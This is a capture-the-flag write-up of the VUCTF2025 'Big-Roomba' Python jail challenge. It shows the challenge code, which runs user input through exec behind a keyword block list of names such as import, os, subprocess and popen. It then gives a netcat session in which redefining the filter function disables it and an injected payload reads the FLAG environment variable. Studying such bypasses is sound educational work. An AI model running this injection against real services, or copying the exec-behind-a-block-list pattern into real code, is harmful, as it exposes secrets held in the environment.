 # VUCTF2025 Big-Roomba

This challenge is the hardened version of the [Baby-Roomba](https://github.com/TSpeel/writeups/tree/main/VUCTF2025/Baby-Roomba) challenge. 
The vulnerability from the previous challenge is no longer present, and has been replaced by a `exec` sink we can reach when sending the update command. 
Leveraging this sink to leak the flag from the `FLAG` environment variable is however more tricky this time, as there is an input filter present that limits what we can use in our payload:
```
def get_banned():
    return [
        "help",
        "import",
        "eval",
        "exec",
        "os",
        "sys",
        "open",
        "chr",
        "system",
        "builtin",
        "subprocess",
        "pty",
        "popen",
        "read",
        "get_data",
        "'",
        "__",
        ".",
    ]


cmd = "1337"
while cmd != "exit":
    try:
        cmd = input(">>> ")
    
        if cmd == "exit":
            print("Goodbye!")
        elif cmd == "help":
            print("Commands: exit, help, update")
        elif len(cmd) > 5 and cmd[:6] == "update":
            print("Parsing update data...")
    
            if all(x in string.printable for x in cmd[7:]) and not any(x in cmd[7:] for x in get_banned()):
                print("Parse succesful, executing update...")
                exec(cmd[7:])
            else:
                raise ValueError("Update parsing failed!")
        else:
            print("Invalid command. Type 'help' for a list")
    except:
        cmd = "exit"
```
Recall the payload we used for the BabyRoomba challenge:
```
print(__import__('os').environ['FLAG'])
```
This payload would now no longer work, as it contains `__`, `import`,`'`,`os` and `.`. The challenge thus lies in bypassing this input filter. At first I started by simply eliminating the parts of the payload that violated the filter. `'` could simply be replaced by `"`, and `"os"` could then be replaced by `"o"+"s"`. The other parts of the payload matching the filter were a lot more difficult.

I started researching ways to bypass the filter and stumbled upon the following [article](https://motasemhamdan.medium.com/hackthebox-locked-away-python-ctf-writeups-1108ac87b898). 
This article not only contains ways to bypass such filters, as I was looking for, but also contains another interesting attack angle. 
It mentions that sometimes the injection can be used to simply overwrite the filter, and thus eliminating the need to alter the payload. 
Looking back at our source code, we can see that this is possible as well! 
The filter is defined as a function, which we can simply overwrite with a new function that returns an empty list. This completely disables the filter. The attack thus looks as follows:
```
$ nc master-roomba.studsec.nl 4003
--------------------------------------------------------------------------------
|                            Welcome to Roomba C&C!                            |
|                             "They've grown old."                             |
--------------------------------------------------------------------------------


>>> update def get_banned(): return []
update def get_banned(): return []
Parsing update data...
Parse succesful, executing update...
>>> update print(__import__('os').environ['FLAG'])
update print(__import__('os').environ['FLAG'])
Parsing update data...
Parse succesful, executing update...
VUCTF{REDACTED}
>>> 
```
